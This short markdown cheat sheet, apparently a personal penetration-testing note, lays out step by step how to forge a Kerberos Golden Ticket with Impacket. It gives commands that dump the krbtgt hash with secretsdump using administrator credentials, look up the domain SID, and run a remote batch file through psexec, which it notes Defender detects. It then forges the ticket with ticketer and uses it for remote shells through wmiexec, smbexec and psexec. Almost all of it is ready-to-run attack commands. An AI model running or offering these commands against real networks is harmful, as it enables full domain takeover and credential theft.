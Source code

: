 ## Golden Ticket with Impacket
### Aquire
#### krbtgt hash
* ZeroLogon  
* Impacket ``secretsdump.py Administrator:Password1@192.168.149.121 | grep krbtgt | grep ::: > ~/win2016; cat ~/win2016``  
* Mimikatz  
#### Domain SID
* Impacket ``lookupsid.py Administrator:Password1@192.168.149.121 | grep "Domain SID" >> ~/win2016; cat ~/win2016``  
#### Domain Name
* Impacket (detected by defender)
  ``echo "powershell Get-WmiObject Win32_ComputerSystem" > ~/GetDomain.bat``  
  ``psexec.py Administrator:Password1@192.168.149.121 -c ~/GetDomain.bat | grep Domain >> ~/win2016; cat ~/win2016``  
### Create Ticket (sudo?)
``ticketer.py -nthash _KRBTGT_HASH_ -domain-sid _DOMAIN_SID_ -domain _DOMAIN_ user``
### Use the Ticket
``export KRB5CCNAME=/home/r0n1n/goldenTicket/ghost.ccache``  
``wmiexec.py _DOMAIN_/ghost@_DC_FQDN_ -k -no-pass``  
``smbexec.py _DOMAIN_/ghost@_DC_FQDN_ -k -no-pass``  
``psexec.py _DOMAIN_/ghost@_DC_FQDN_ -k -no-pass``

